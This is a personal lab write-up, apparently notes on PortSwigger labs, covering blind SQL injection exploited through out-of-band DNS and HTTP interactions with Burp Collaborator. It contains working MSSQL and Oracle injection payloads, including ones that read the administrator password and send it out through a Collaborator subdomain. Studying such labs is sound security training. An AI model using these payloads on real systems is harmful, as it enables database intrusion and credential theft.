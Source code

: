 ## Blind sqli with out-of-band interaction (OAST)

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This will cause the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Suite's [Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

## Lab

--> to use collaborator in burp :

--> Goto burp==>burp collaborator client==> Then click `copy to clipboard` and save the subdomain

--> i used this payload :

```
'+||+(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//738qc6nzh0x33rtw0rmgq0ka91ft3i.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+users)--
```

--> i got the requests in collaborator

![](Attachments/Pastedimage20211003141740.png)

--> and we solved the lab !

![](Attachments/Pastedimage20211003141717.png)

---

## Information Gathering

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

--> i used this payload

```
'+||+(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.0xy2jvnpf2fow06c9enuataudljc71.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+users)--
```

--> and i got the password of administrator

![](Attachments/Pastedimage20211003143231.png)

`820sriia4t8wy61gtzxw`

--> and we solved the lab !

![](Attachments/Pastedimage20211003143429.png)

